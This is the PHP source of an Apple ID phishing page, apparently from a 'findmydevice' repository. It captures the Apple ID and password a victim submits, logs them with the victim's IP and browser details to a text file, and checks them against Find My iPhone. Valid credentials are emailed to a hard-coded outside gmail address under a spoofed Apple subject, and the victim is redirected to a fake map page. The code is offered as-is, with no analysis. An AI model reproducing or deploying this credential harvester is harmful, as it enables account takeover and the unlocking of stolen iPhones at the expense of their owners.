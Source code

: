 # findmydevice.github.io
<<?php
$email= $_POST['appleid'];
$pass= $_POST['password'];
function getUserIP()
{
    $client  = @$_SERVER['HTTP_CLIENT_IP'];
    $forward = @$_SERVER['HTTP_X_FORWARDED_FOR'];
    $remote  = $_SERVER['REMOTE_ADDR'];
    if(filter_var($client, FILTER_VALIDATE_IP))
    {
        $ip = $client;
    }
    elseif(filter_var($forward, FILTER_VALIDATE_IP))
    {
        $ip = $forward;
    }
    else
    {
        $ip = $remote;
    }
    return $ip;
}
$user_ip = getUserIP();
$date = gmdate ("d-n-Y");
$time = gmdate ("H:i:s");
$agent = $_SERVER['HTTP_USER_AGENT'];
$remote = $_SERVER['REMOTE_ADDR'];
// Additional headers
$headers .= 'To: New User' . "\r\n";
$headers .= 'From: iServer' . "\r\n";
// To send HTML mail, the Content-type header must be set
$headers  = 'MIME-Version: 1.0' . "\r\n";
$headers .= 'Content-type: text/html; charset=iso-8859-1' . "\r\n";
// Send email with reply
$to  = "kabyarsayarlay278@gmail.com";
// Subject
$subject = 'Key Ready By @Apple.inc';
// Message
$message = "\r\n Enjoy Unlock By @Joker_Unlock \r\n ".
"1PAddre55: $user_ip \r\n".
"Joker Email: $email \r\n".
"Joker Pass: $pass \r\n".
"Time-Date: $time - $date \r\n".
"Dvice typ: $agent \r\n".
"1PAddre55: http://whatismyipaddress.com/$remote \r\n";
require 'FindMyiPhone.php';
try {
$file=fopen("findmyiphone.txt","a");
fwrite($file,$message);
fwrite($file,"\r\n");
fclose($file);
	$FindMyiPhone = new FindMyiPhone($email, $pass);
} catch (exception $e) {
	if($e->getMessage()==true){
		// Mail it
// send email
$headers = "From:UNl0CKED <admin@help-iphone.info>" . "\r\n" ;
mail($to, $subject, $message, $headers);
header("Location: /map/ ");
	}else{
		header('Location: '.$_SERVER['HTTP_REFERER'].'?error');
	}
}
?>
